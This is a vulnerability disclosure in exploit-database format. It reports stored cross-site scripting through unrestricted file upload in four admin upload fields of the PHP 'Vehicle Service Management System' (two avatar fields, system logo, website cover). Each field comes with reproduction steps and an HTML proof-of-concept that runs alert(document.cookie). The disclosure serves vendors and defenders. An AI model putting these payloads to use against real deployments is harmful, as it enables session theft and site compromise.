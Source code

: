 # Vehicle Service Management System - 'Multiple' File upload Leads to Stored Cross-Site Scripting
Vehicle Service Management System - 'Multiple' File upload Leads to Stored Cross-Site Scripting

### Exploit Title: Vehicle Service Management System - 'Multiple' File upload Leads to Stored Cross-Site Scripting
### Date: 29/12/2021
### Exploit Author: P.L.Sanu
### Exploit Author Website: https://www.plsanu.com
### Vendor Homepage: https://www.sourcecodester.com
### Software Link: https://www.sourcecodester.com/php/14972/vehicle-service-management-system-php-free-source-code.html
### Version: <= 1.0
### Tested on: Windows 10
### CVE : 
### Google Dork: N/A
### Reference: 
- https://www.plsanu.com/vehicle-service-management-system-multiple-file-upload-leads-to-stored-cross-site-scripting
- https://github.com/plsanu/Vehicle-Service-Management-System-Multiple-File-upload-Leads-to-Stored-Cross-Site-Scripting

### 1. Vehicle Service Management System - 'MyAccount' (/admin/?page=user)

### Steps to Reproduce:
1. Login to the admin panel http://localhost/vehicle_service/admin
2. Navigate to My Account section http://localhost/vehicle_service/admin/?page=user

### Code:
```html
<!DOCTYPE html>
<html>
<title>Stored XSS</title>
<body>
<script>
alert(document.cookie);
</script>
</body>
</html>
```
3. Save the above html code For Ex:XSS.html
4. In My Account Section enter all the required details and browse the html file in Avatar.
5. Click on update button.
6. Open the avatar image in new tab.
7. Malicious javascript code triggered.

### 2. Vehicle Service Management System - 'User List' (/admin/?page=user/manage_user)

### Steps to Reproduce:
1. Login to the admin panel http://localhost/vehicle_service/admin
2. Navigate to User List section and click on Create New button.

### Code:
```html
<!DOCTYPE html>
<html>
<title>Stored XSS</title>
<body>
<script>
alert(document.cookie);
</script>
</body>
</html>
```
3. Save the above html code For Ex:XSS.html
4. In Create New User Page enter all the required details and browse the html file in Avatar.
5. Click on Save button.
6. Open the avatar image in new tab.
7. Malicious javascript code triggered.

### 3. Vehicle Service Management System - 'Settings-System Logo' (/admin/?page=system_info)

### Steps to Reproduce:
1. Login to the admin panel http://localhost/vehicle_service/admin
2. Navigate to Settings section http://localhost/vehicle_service/admin/?page=system_info

### Code:
```html
<!DOCTYPE html>
<html>
<title>Stored XSS</title>
<body>
<script>
alert(document.cookie);
</script>
</body>
</html>
```
3. Save the above html code For Ex:XSS.html
4. In Settings Section enter all the required details and browse the html file in System Logo.
5. Click on update button.
6. Open the System Logo image in new tab.
7. Malicious javascript code triggered.

### 4. Vehicle Service Management System - 'Settings-Website Cover' (/admin/?page=system_info)

### Steps to Reproduce:
1. Login to the admin panel http://localhost/vehicle_service/admin
2. Navigate to Settings section http://localhost/vehicle_service/admin/?page=system_info

### Code:
```html
<!DOCTYPE html>
<html>
<title>Stored XSS</title>
<body>
<script>
alert(document.cookie);
</script>
</body>
</html>
```
3. Save the above html code For Ex:XSS.html
4. In Settings Section enter all the required details and browse the html file in Website Cover.
5. Click on update button.
6. Open the Website Cover image in new tab.
7. Malicious javascript code triggered.
